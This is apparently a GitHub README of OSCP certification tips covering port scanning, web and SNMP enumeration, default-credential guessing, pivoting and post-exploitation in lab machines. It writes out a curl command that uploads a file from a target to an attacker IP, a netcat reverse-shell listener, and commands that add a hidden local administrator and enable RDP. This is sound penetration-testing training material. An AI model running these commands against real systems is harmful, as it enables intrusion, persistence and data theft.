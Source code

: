 ## oscp-tips ##
### Tips and Tricks for OSCP and Beyond! ###

1 - Run a quick port scanner like threader3000 or rustscan first. You can save good amount of time by this way, for example threader3000 scans all ports and suggests nmap only for open ports.

2 - Run nmap -sS for all ports, compare open ports with previous scan.

3 - Run -sU (UDP) for well-known ports.

4 - Run gobuster in dir mode for all http/https ports with common world list. See if anything interesting.

5 - Run gobuster in fuzz mode with common world list.

6 - Run gobuster recursively for anything interesting, like you find out a script directory, try to find out directories within script. You should do this upto 3-4 level.

7 - Run gobuster for file extension using -x, like for php or aspx.

8 - Check UDP scan, see if SNMP is allowed or not. If SNMP port is open use snmpwalk with well-known default community strings.

9 - Run snmp with extended MIB, check hacktricks for more details.

10 - Check HTML code, check title of the page, sometimes you will get vulnerable system name from title itself.

11 - Check nmap scan, try to connect to every port using telnet or nc. Send some random keys and see the response.

12 - Check hacktricks (https://book.hacktricks.xyz/) if you don't know or aware about pentesting of a port or service.

13 - Use rpcclient to enum users and other details if RPC ports are open.

14 – Revert machines and perform scan again.

15 – Listen reverse shell on same ports which are open on victim. For example, if port 445 is open on victim, bidirectional traffic might be allowed on same port too. You can use “nc -lvnp 445” to catch reverse shell on Kali in that case, if others are not working. Try 
port 80 and 443 as well.

16 – Always try default credentials wherever applicable. For example, admin/password, administrator/password or admin/admin. Search google for default credentials as well.

17 – Always try username and password as machine name as credential. For example, if machine name is “berlin”, try to login FTP (or any other service) with berlin/berlin. Try username without password.

18 – If machine is running a portal with employee name (or email), they can be potential usernames. Make a list and use it for spraying.

19 – Use “updog” to transfer data between target and Kali. You can upload data from target to Kali using below command.

curl.exe -v -XPOST -F "file=@./SharpHound.ps1;filename=SharpHound.ps1" -F "path=." http://192.168.45.229:9090/upload

Please note that for above command file “SharpHound.ps1” should be saved in same directory from where you are running command. You can use impacket-smbserver as well.

20 – If using msfvenom reverse shell, use msfconsole multi handler to catch it. 

21 - Compile C/C++ exploit with "-static" flag, it will allow to include all required libraries as few might be missing on target. You can avoid “GLIBC not found” error by compiling with “-static”.

22 – If you can get root on a Windows machine (standalone or form AD set), install nmap on that and scan remaining machines from there. Scan will be very fast, you will surely save time.

23 – If you are not able to copy files directly to target machine copy it to another target and copy from there. For example, if you have root access on MS01 and low-level access on MS02. It is possible that you might not be allowed to copy files (like winPEAS) 
directly from Kali to MS02. Create a share folder on MS01, copy files to that folder. Now you can copy files from MS01 to MS02.

24 – Use ligolo-ng for pivoting between machines. You can use script from https://github.com/isr4r/misc-scripts/blob/master/ligolo.sh to configure ligolo easily.

25 – Use chisel for local port forwarding. For example, a service is running on target which is only locally allowed (or from 127.0.0.1). You should use chisel in this situation to open access for this service from Kali.

26 – Always check for ports open or allowed locally (for 127.0.0.1). You can connect to these ports on same target machine using “telnet localhost <port number>”. It will give you an idea if something interesting is running.

27 – For AD Set, after getting system level access, which might be over CLI, create a new account as local admin, enable RDP, login and do further enum like running mimikatz. You can use below commands to create user and enable RDP.

For RDP (PowerShell commands)

•	Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0

•	Enable-NetFirewallRule -DisplayGroup "Remote Desktop"

For Creating User

•	net user user1 Pass123 /add 

•	net localgroup Administrators user1 /add

28 – Try reverse shell from https://www.revshells.com/, keep trying as one of them will work in lab and in exam too.

29 – Try smbclient, FTP, rpcclient as null user or anonymous user or guest user as well. For example,

•	smbclient -U “” -L 192.168.120.20  

30 – If machine has an open source project check its github or code repo to understand directory structure.


